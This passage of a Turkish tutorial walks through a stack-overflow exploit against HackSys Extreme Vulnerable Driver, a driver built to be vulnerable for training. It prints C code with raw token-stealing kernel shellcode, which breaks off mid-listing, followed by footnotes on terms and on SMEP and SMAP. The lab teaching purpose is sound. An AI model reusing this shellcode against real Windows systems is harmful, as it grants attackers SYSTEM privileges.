 Evet! Heyacanlı bekleyişin sonuna yaklaştık. Bu aşamadan sonra bir "assembler" kullanarak yazdığımız "*shellcode*"u derleyip, C uygulamamıza dahil ediyoruz. "*Exploit*"imizin son halini görelim ve çalıştırıp bakalım neler olacak...

```c
#include "stdafx.h"
#include <Windows.h>

#define HACKSYS_EVD_IOCTL_STACK_OVERFLOW  CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_NEITHER, FILE_ANY_ACCESS)

int main()
{
	BOOL Result             = FALSE;
	DWORD Retval            = 0;
	PUCHAR pBuffer          = NULL;
	const DWORD BufferSize  = 2056 + 8;
	HANDLE hDeviceHandle    = INVALID_HANDLE_VALUE;
	const WCHAR* DeviceName = L"\\\\.\\HacksysExtremeVulnerableDriver";

	//
	// "Token" calan parcacik
	//
	unsigned char cakal[61] = {
		0x50, 0x65, 0x48, 0x8B, 0x14, 0x25, 0x88, 0x01, 0x00, 0x00, 0x4C, 0x8B,
		0x5A, 0x70, 0x4D, 0x8B, 0x93, 0x88, 0x01, 0x00, 0x00, 0x49, 0x8B, 0x0A,
		0x48, 0x8B, 0x51, 0xF8, 0x48, 0x83, 0xFA, 0x04, 0x74, 0x05, 0x48, 0x8B,
		0x09, 0xEB, 0xF1, 0x48, 0x8B, 0x81, 0x80, 0x00, 0x00, 0x00, 0x24, 0xF0,
		0x49, 0x89, 0x83, 0x08, 0x02, 0x00, 0x00, 0x58, 0x48, 0x83, 0xC4, 0x28,
		0xC3
	};

	//
	// Parcacigin alanini calistirilabilir yap
	//
	DWORD oldProtect;
	VirtualProtect(cakal, sizeof(cakal), PAGE_EXECUTE_READWRITE, &oldProtect);

	printf("*** Cekirdegi Kitliyoruz - Yigin Tasmasi ***\n");

	//
	// Surucuye tutamak al
	//
	hDeviceHandle = CreateFile(
		DeviceName,
		GENERIC_READ | GENERIC_WRITE,
		FILE_SHARE_READ,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL);

	if(hDeviceHandle == INVALID_HANDLE_VALUE)
	{
		printf("Surucuye tutamak alamiyoruz?!\n");
		goto RETURN;
	}

	printf("Hop, tutamak geldi : %p\n", hDeviceHandle);

	//
	// Veriyi hazırla
	// 
	pBuffer = (PUCHAR)VirtualAlloc(
```

[^1]: "*Exploit*" kelimesi için Türkçe ne kullanabiliriz? Şahsen Sömürgeç kelimesini öneriyorum, başka fikri olan?
[^2]: **SMEP** (Supervisor Mode Execution Prevention) - Çekirdek modundaki bir kodun, kullanıcı modundaki bir alanda kod çalıştırmasını engelleyen güvenlik mekanizması.
[^3]: **SMAP** (Supervisor Mode Access Prevention) - Çekirdek modundaki bir kodun, kullanıcı modundaki bir alandaki veriye direkt olarak erişimi engelleyen güvenlik mekanizması.
[^4]: "*Shellcode*" kelimesi için Türkçe ne kullanabiliriz? Ağırlıklı olarak "Kabuk Kod" kelimesinin kullanıldığını sanıyorum fakat bana çok düz bir çeviri gibi geliyor.
[^5]: **Parametre**, fonksiyonun imzasında bulunan elemanlardan bahsedilirken kullanılır, **Argüman** ise bu fonksiyon çağırılırken parametrelere verilen değerlerden bahsedilirken kullanılır.